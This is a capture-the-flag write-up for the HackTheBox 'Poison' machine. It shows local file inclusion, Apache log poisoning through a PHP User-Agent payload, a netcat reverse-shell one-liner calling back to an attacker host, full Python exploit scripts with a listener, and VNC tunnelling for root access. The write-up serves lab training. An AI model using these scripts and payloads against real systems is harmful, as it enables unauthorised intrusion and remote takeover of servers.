

This box was an Medium box from HackTheBox. It's FreedBSD OS, which is not so common in HackTheBox. The entry point is with a LFI on the webserver which we can get the SSH password of an user. After logged with this user the VNC is running as root. We port forwading the VNC ports and get this session. 

The exploit for this box is on the body of the post. Hope you enjoy!

# Diagram



# Enumeration

First step is to enumerate the box. For this we'll use `nmap`

```sh
nmap -sV -sC -Pn 10.10.10.84
```

> -sV - Services running on the ports

> -sC - Run some standart scripts

> -Pn - Consider the host alive


## Port 80

We try to open it on the browser


And in this field we find an obvious LFI which we can trigger to enumerate the fileserver


Now let's easily automate it.

We'll use our skeleton

```py
#!/usr/bin/python3

import argparse
import requests
import sys

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    args = parser.parse_args()
    
    '''Here we call the functions'''
    
if __name__ == '__main__':
    main()
```

Here it is


auto_lfi_poison.py

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Auto LFI - Poison HackTheBox

import argparse
import requests
import sys

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
def readFileGET(rhost):
    url = "http://%s:80/browse.php?file=../../../../../../../" %rhost
    print("[+] Type exit to exit ! [+]")
    prefix = "Reading file: "
    file = ""
    while True:
        if file != "exit":
            file = input(prefix)
            headers = {"Content-Type": "application/x-www-form-urlencoded; charset=UTF-8"}
            url_read = url + file
            output = r.get(url_read,headers=headers,proxies=proxies)
            url_read = url
            if "Warning" in output.text:
                print("[+] File does NOT EXIST !!! Or I can't read it !!! [+]")
            else:
                print(bytes(output.text, "utf-8").decode('unicode_escape').strip('"'))
        else:
            print("[+] Exxxxitting.... !! [+]")
            break

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    args = parser.parse_args()
    
    rhost = args.target

    '''Here we call the functions'''
    # Read LFI
    readFileGET(rhost)

if __name__ == '__main__':
    main()
```

If we take a look on the listfiles.php we found a passwdbwk.txt which is very interesting for us


And after looking the message errors to get the web root folder we get the password backup


```
/usr/local/www/apache24/data/pwdbackup.txt
```


And after 13 times decode it, we got a password

**Charix!2#4%6&8(0**


### SSH Charix

And we simply ssh in the session with this password, once we know that we have a charix user (seen on /etc/passwd)


But that is not the way I would like to explore this box. I will do that with a log poison.

### Log Poison

First, we need to find where the logs are stored in this box, and with that we can try to poison it. The ideia of the attack is to poison the log by any way, because we know that probably it's going to be loaded by the web app as php file. If we can insert some php code there, we can get RCE and a reverse shell!

We already know that the root web is in `/usr/local/www/apache24/data/`

And we found both of them

```
ErrorLog "/var/log/httpd-error.log"
CustomLog "/var/log/httpd-access.log" combined
```


And we see that we can control the User-Agent string, which is in the log


So, if we put some dangerous code in the User-Agent, it will be loaded as php!

And here we go


He have RCE!


And reverse shell

```sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4242 >/tmp/f
```


# Auto Reverse Shell

And here it's automated


auto_pwn_poison.py

```py
#!/usr/bin/python3
# Exploit for Poison - HackTheBox
# Author: 0x4rt3mis

import argparse
import requests
import sys
import socket, telnetlib
from threading import Thread
import urllib.parse

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
# Set the handler
def handler(lport,target):
    print("[+] Starting handler on %s [+]" %lport) 
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %target) 
    t.sock = conn
    print("[+] Shell'd [+]")
    t.write(str.encode("id \n"))
    t.interact()
    
# Function Just to Poison the Log
def PoisonLOG(rhost):
    print("[+] Let's Posion the Log !! [+]")
    url = "http://%s:80/" %rhost
    headers = {"User-Agent": "<?php system($_GET['cmd']); ?>"}
    requests.get(url, headers=headers,proxies=proxies)
    print("[+] Log Poisoned ! [+]")

def TriggerReverse(lhost,lport,rhost):
    print("[+] Enjoy your reverse !! [+]")
    payload = "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc %s %s" %(lhost,lport)
    payload_str = urllib.parse.quote(payload, safe='')
    url = "http://" + rhost + ":80/browse.php?file=../../../../../../../var/log/httpd-access.log&cmd=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+" + lhost + "+" + lport + "+>/tmp/f"
    requests.get(url, proxies=proxies)

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser(description='HackTheBox SolidState AutoShell - 0x4rt3mis')
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-li', '--localip', help='Local ip address or hostname', required=True)
    parser.add_argument('-lp', '--localport', help='Local port to receive the shell', required=True)

    args = parser.parse_args()

    rhost = args.target
    lhost = args.localip
    lport = args.localport

    '''Here we call the functions'''
    # Set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    # Poison the log
    PoisonLOG(rhost)
    # Get reverse
    TriggerReverse(lhost,lport,rhost)
    
if __name__ == '__main__':
    main()
```

Now, let's make our privilege escalation on this box

# charix -> root

After login as ssh (the shell is better) we start looking for interesting files in the system, and we see on the home folder an interesting file called secret.zip


We get it in our kali box, we unzip it with the charix password and see that is a weird ascii password file


We run [linpeas](https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/linPEAS/linpeas.sh)


We see that VNC is running as root


We forward both ports of vnc and access from our kali

```sh
ssh -D 1080 -L6801:127.0.0.1:5801 -L6901:127.0.0.1:5901 charix@10.10.10.84 -f
vncviewer -passwd secret 127.0.0.1::6901
```

And we get a root shell

